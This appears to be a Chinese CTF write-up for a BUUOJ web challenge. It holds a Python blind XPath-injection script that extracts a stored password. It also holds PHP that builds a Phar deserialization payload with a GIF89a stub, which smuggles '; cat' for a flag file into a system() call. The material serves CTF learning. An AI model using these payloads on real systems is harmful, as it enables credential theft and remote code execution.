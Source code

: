 tags:: CTFWEB/Xpath, CTFWEB/PHP/Phar

- > 复现
- # 思路
	- 使用[xpath注入]([[CTFWEB/XPATH]])得到账号密码，登陆
	- F12看到源代码泄漏
	- 使用[phar POP]([[CTFWEB/PHP/Phar]])实现RCE
- # Xpath注入
	- 脚本
		- ```python
		  url = "http://f3b9594d-6bf5-47bb-a0e4-e62c761263ac.node4.buuoj.cn:81/index.php"
		  
		  # payload = "114514' or substring(name(/*),{},1)='{}' or '" # account
		  # payload = "114514' or substring(name(/accounts/*),{},1)='{}' or '" # user
		  # payload = "114514' or substring(name(/accounts/user/*[position()=1]),{},1)='{}' or '" # username
		  # payload = "114514' or substring(name(/accounts/user/*[position()=2]),{},1)='{}' or '" # password
		  payload = "114514' or substring(/accounts/user/password,{},1)='{}' or '" # 
		  
		  def submit(payload):
		      r = base_post(url, data = {
		          "username": payload,
		          "password": "123",
		          "submit": "114514"
		      })
		  
		      _ = base_get(url)
		      return r
		  
		  def get_by_payload(payload):
		  
		      known = ""
		      while True:
		          visited = set()
		          for c in itertools.chain(string.digits, string.ascii_lowercase, string.printable):
		              if c == "'" or c in visited:
		                  continue
		              visited.add(c)
		              r = submit(payload.format(str(len(known) + 1), c))
		              if "登录成功" in r.text:
		                  known += c
		                  print(known)
		                  break
		          else:
		              print("> break")
		              break
		      return known
		  
		  # first_node = get_by_payload(payload)
		  # submit("114514' or count(/accounts/user/*)=2 or '").text
		  get_by_payload(payload)
		  # 密码：15035371139
		  ```
	- 拿到[somd5](https://www.somd5.com/)破解密码md5即可
- # Phar POP
	- ```php
	  <?php
	  class FILE{
	      public $filename;
	      public $lasttime;
	      public $size;
	      public function __construct($filename){
	          if (preg_match("/\//i", $filename)){
	              // throw new Error("hacker!");
	          }
	          $num = substr_count($filename, ".");
	          if ($num != 1){
	              // throw new Error("hacker!");
	          }
	          if (!is_file($filename)){
	              // throw new Error("???");
	          }
	          $this->filename = $filename;
	          $this->size = filesize($filename);
	          $this->lasttime = filemtime($filename);
	      }
	      public function remove(){
	          unlink($this->filename);
	      }
	      public function show()
	      {
	          echo "Filename: ". $this->filename. "  Last Modified Time: ".$this->lasttime. "  Filesize: ".$this->size."<br>";
	      }
	      public function __destruct(){
	          system("ls -all ".$this->filename);
	      }
	  }
	  $o = new FILE("/; cat /adjaskdhnask_flag_is_here_dakjdnmsakjnfksd");
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  ?>
	  ```
-
